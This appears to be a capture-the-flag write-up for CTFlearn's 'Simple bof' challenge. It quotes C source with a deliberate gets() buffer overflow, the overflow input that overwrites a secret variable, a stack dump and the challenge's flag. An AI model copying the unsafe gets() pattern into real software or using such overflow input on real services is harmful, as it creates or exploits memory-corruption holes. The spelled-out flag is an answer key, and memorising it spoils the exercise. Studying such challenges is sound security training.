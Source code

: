 
<!DOCTYPE html>
<html>

<body>
    <h1>Simple bof- ctflearn</h1>

    <h2>Challenge Description</h2>
    <p> Want to learn the hacker's secret? Try to smash this buffer!

You need guidance? Look no further than to <a href="https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w">Mr. Liveoverflow</a>. He puts out nice videos you should look if you haven't already

nc thekidofarcrania.com 35235
<a href="https://cybersecctf.github.io/blog/2024/practice/ctflearn/simplebuf/bof.c">bof.c</a>

 
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        we open bof.c and see is a bufferoverflow in
       <pre>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.     and fill 1 with 32 1 for this                                          
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.and fill i with 16 1 here and then flag for secret

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call! 

  // Prints out the stack after modification
  visualize(buff); 

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
/*
Input some text: 111111111111111111111111111111111111111111111111flag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret                          
0xffdb72c8 | 31 31 31 31 31 31 31 31 |
0xffdb72d0 | 31 31 31 31 31 31 31 31 |
0xffdb72d8 | 31 31 31 31 31 31 31 31 |
0xffdb72e0 | 31 31 31 31 31 31 31 31 |
0xffdb72e8 | 31 31 31 31 31 31 31 31 |
0xffdb72f0 | 31 31 31 31 31 31 31 31 |
0xffdb72f8 | 66 6c 61 67 00 ff ff ff |
0xffdb7300 | c0 85 fa f7 84 4f 57 56 |
0xffdb7308 | 18 73 db ff 11 2b 57 56 |
0xffdb7310 | 30 73 db ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
*/
</pre>
    we add flag in end of 48 1 or any char because secret comming after them and should be<pre>if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");</pre>
that 0x67616c66 is hex of flag in reverse(ord('f')=102,hex(102)
'0x66') )and secret should be flag for get full flag for us
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">CTFlearn{buffer_0verflows_4re_c00l!}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for work on  binary overflow and  binary exploitation</p>
</body>
</html>


 
